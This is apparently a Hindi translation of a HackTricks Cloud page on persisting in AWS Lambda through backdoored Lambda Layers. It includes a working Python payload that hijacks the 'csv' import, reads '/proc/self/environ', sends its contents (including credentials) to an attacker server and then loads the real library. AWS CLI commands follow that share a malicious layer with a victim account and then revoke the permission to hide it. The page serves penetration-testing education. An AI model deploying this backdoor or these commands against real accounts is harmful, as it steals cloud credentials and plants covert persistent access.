 # AWS - लैम्बडा लेयर्स टिकाऊता

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **तुरंत** मुझे **ट्विटर** पर फॉलो करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को।

</details>

## लैम्बडा लेयर्स

लैम्बडा लेयर एक .zip फ़ाइल आर्काइव है जिसमें **अतिरिक्त कोड** या अन्य सामग्री हो सकती है। एक लेयर में पुस्तकालयें, [कस्टम रनटाइम](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), डेटा या कॉन्फ़िगरेशन फ़ाइलें शामिल हो सकती हैं।

एक फ़ंक्शन में आप **पांच लेयर्स शामिल** कर सकते हैं। जब आप एक लेयर को फ़ंक्शन में शामिल करते हैं, तो **सामग्री को `/opt`** निर्देशिका में निष्कर्षित किया जाता है निष्पादन पर्यावरण में।

**डिफ़ॉल्ट** रूप से, आपके द्वारा बनाए गए **लेयर्स** आपके AWS खाते के लिए **निजी** होते हैं। आप एक लेयर को अन्य खातों के साथ **साझा** करने या लेयर को **सार्वजनिक** बनाने का चयन कर सकते हैं। यदि आपके फ़ंक्शन एक ऐसी लेयर का उपयोग करते हैं जिसे एक अलग खाता प्रकाशित किया है, तो आपके फ़ंक्शन लेयर संस्करण का उपयोग करना जारी रख सकते हैं जब तक उसे हटा दिया नहीं गया है, या जब तक आपकी लेयर तक पहुँच की अनुमति नहीं हटा दी गई है। हालांकि, आप नई फ़ंक्शन नहीं बना सकते या डिलीट किए गए लेयर संस्करण का उपयोग करके फ़ंक्शन को अपडेट नहीं कर सकते।

कंटेनर छवि के रूप में वितरित फ़ंक्शन लेयर का उपयोग नहीं करते हैं। इसके बजाय, आप छवि बनाते समय अपने पसंदीदा रनटाइम, पुस्तकालयें और अन्य आवश्यकताओं को कंटेनर छवि में पैकेज करते हैं।

### Python लोड पथ

लैम्बडा में पायथन द्वारा उपयोग किया जाने वाला लोड पथ निम्नलिखित है:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
जांचें कि **दूसरी** और तीसरी **स्थान** पर निर्देशिकाएं कैसे आपत्तिजनक कोड चलाने पर अपनी फ़ाइलें अनज़िप करती हैं: **`/opt/python/lib/python3.9/site-packages`** और **`/opt/python`**

{% hint style="danger" %}
यदि कोई हमलावर एक उपयोग किए जाने वाले लैम्बडा **लेयर** को **बैकडोर** करने में सफल हो जाता है या एक ऐसा लेयर **जो एक सामान्य लाइब्रेरी लोड होने पर अनुमति देता है**, तो वह प्रत्येक लैम्बडा आवाहन के साथ दुष्प्रभावी कोड चला सकेगा।
{% endhint %}

इसलिए, आवश्यकताएं हैं:

* पीड़ित कोड द्वारा लोड होने वाली **लाइब्रेरीज़ की जांच करें**
* लैम्बडा लेयर के साथ एक **प्रॉक्सी लाइब्रेरी बनाएं** जो **कस्टम कोड को चलाएगी** और **मूल** लाइब्रेरी को लोड करेगी।

### पूर्व-लोड होने वाली लाइब्रेरीज़

{% hint style="warning" %}
इस तकनीक का दुरुपयोग करते समय मुझे एक कठिनाई मिली: कुछ लाइब्रेरीज़ पायथन रनटाइम में आपके कोड को निष्पादित होने पर **पहले से ही लोड हो जाती हैं**। मैं `os` या `sys` जैसी चीजें उम्मीद कर रहा था, लेकिन **हालांकि `json` लाइब्रेरी भी लोड हो गई थी**।\
इस प्रकार की स्थायित्व तकनीक का दुरुपयोग करने के लिए, कोड को निष्पादित होने पर **नई लाइब्रेरी लोड करने की आवश्यकता होती है**।
{% endhint %}

इस तरह के पायथन कोड के साथ, लैम्बडा में पहले से ही लोड होने वाली लाइब्रेरीज़ की **सूची प्राप्त की जा सकती है**:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
और यह है **सूची** (जांचें कि `os` या `json` जैसी पुस्तकालय पहले से ही मौजूद हैं)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
और यह है **लाइब्रेरी** की सूची जो **लैम्बडा डिफ़ॉल्ट रूप से स्थापित करता है**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### लैम्बडा लेयर बैकडोरिंग

इस उदाहरण में मान लें कि लक्षित कोड **`csv`** को आयात कर रहा है। हम **`csv` लाइब्रेरी के आयात को बैकडोर करने** जा रहे हैं।

इसके लिए, हमें लैम्बडा द्वारा लोड किए जाने वाले एक पथ में निर्मित करना होगा: **`/opt/python/lib/python3.9/site-packages`** जहां हमें निम्नलिखित फ़ाइल वाले निर्देशिका csv बनानी होगी: **`__init__.py`**\
फिर, जब लैम्बडा को निष्पादित किया जाता है और **csv** को लोड करने का प्रयास करता है, हमारी **`__init__.py` फ़ाइल लोड और निष्पादित** हो जाएगी।\
इस फ़ाइल में होना चाहिए:

* हमारे पेलोड को निष्पादित करें
* मूल csv लाइब्रेरी को लोड करें

हम दोनों को निम्नलिखित के साथ कर सकते हैं:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
तो, इस कोड को **`python/lib/python3.9/site-packages/__init__.py`** पथ में रखकर एक ज़िप बनाएं और इसे एक lambda layer के रूप में जोड़ें।

आप इस कोड को [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) में ढूंढ सकते हैं।

एकीकृत payload **इसे पहली बार invoke किया जाता है या lambda container को रीसेट किया जाता है** (कोड का परिवर्तन या ठंडी lambda के बाद), लेकिन **अन्य तकनीकें** भी एकीकृत की जा सकती हैं:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### बाहरी Layers

ध्यान दें कि **बाहरी खातों से lambda layers का उपयोग किया जा सकता है**। इसके अलावा, एक lambda एक बाहरी खाते से एक layer का उपयोग कर सकता है, यदि उसके पास अनुमतियाँ नहीं हैं।\
इसके अलावा ध्यान दें कि **एक lambda के पास सबसे अधिकतम 5 layers हो सकते हैं**।

इसलिए, इस तकनीक की विविधता को बढ़ाने के लिए एक हमलावर निम्नलिखित कर सकता है:

* उपयोगकर्ता के मौजूदा layer को backdoor करें (कुछ बाहरी नहीं है)
* अपने खाते में एक layer बनाएं, पीड़ित खाते को layer का उपयोग करने की अनुमति दें, पीड़ित Lambda में layer को कॉन्फ़िगर करें और अनुमति हटा दें।
* **Lambda** अब भी **layer का उपयोग कर सकेगा** और पीड़ित को **layer कोड डाउनलोड करने का कोई आसान तरीका नहीं होगा** (लैम्बडा में एक rev shell प्राप्त करने के अलावा)
* पीड़ित **`aws lambda list-layers`** के साथ बाहरी layers नहीं देखेगा

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को पीडीएफ़ में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **तक** मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>
